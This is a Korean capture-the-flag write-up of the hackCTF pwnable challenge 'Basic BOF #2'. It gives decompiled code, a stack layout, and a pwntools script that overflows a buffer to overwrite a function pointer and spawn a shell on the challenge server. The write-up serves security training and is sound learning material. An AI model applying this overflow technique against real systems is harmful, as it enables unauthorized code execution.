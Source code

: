 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #2"
date:   2020-02-09
categories: hackCTF/pwnable
tags: [hackCTF] [pwnable]
permalink: 'hackCTF/pwnable'
---
```


hackCTF pwnable 두번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Ch] [ebp-8Ch]
  void (*v5)(void); // [esp+8Ch] [ebp-Ch]

  v5 = (void (*)(void))sup; // sup 함수의 주소를 v5에 저장
  fgets(&s, 133, stdin); // stdin으로부터 133바이트를 입력 받아 s에 저장
  v5(); // v5가 가리키는 함수 실행
  return 0;
}
```
## ida - sup
```c
int sup()
{
  return puts(&s); // s에 저장된 문자열 출력
}
```

## ida - shell
```c
int shell()
{
  return system("/bin/dash"); // 쉘을 띄울 수 있다!
}
```
<br>

메모리 구조를 정리해보자.<br><br>

***

| sfp |    ebp   |
|:---:|:--------:|
| ... |          |
|  v5 | esp+0x8C |
| ... |          |
|  s  |  esp+0xC |
| ... |          |
| esp |   esp+0  |

***

<br>
목표 : shell 함수 실행 <br>
취약점 : fgets(&s, 133, stdin)<br><br>
∴ v5를 shell의 주소로 덮어 shell()을 실행시키자.<br><br><br>

+) 쉘의 주소는 다음과 같다.  
![0201](https://drive.google.com/uc?id=18Rgv1QIq_0rxABl08a1KZjNBc3GLtHi4)


## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3001)

payload = "A"*(0x8C-0xC) + p32(0x0804849B)

p.sendline(payload)

p.interactive()
```
## 결과  
![0202](https://drive.google.com/uc?id=1GApVrN8IkoCUKXN559Ldluu8rjXOXgtH)
